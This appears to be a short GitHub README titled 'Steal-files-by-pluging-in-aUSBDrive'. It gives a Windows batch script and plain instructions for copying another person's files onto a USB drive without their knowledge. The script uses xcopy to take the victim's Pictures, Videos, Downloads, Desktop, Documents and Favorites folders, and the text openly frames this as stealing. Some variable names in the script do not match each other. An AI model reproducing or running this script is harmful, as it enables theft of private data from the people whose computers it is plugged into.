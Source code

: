 # Steal-files-by-pluging-in-aUSBDrive
plug in a usb drive and start stealing the persons files. do at your own rsik
Usage
1 open notpad 
and copy this


@echo off
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\vids"
%backupcmd% "%USERPROFILE%\downloads" "%drive%\all\downloads"
%backupcmd% "%USERPROFILE%\desktop" "%drive%\all\desktop"
%backupcmd% "%USERPROFILE%\documents" "%drive%\all\documents"
@echo off
cls


paste this in notpad and save this as a ".bat" file in your USBDrive 
open it to begin copy :)
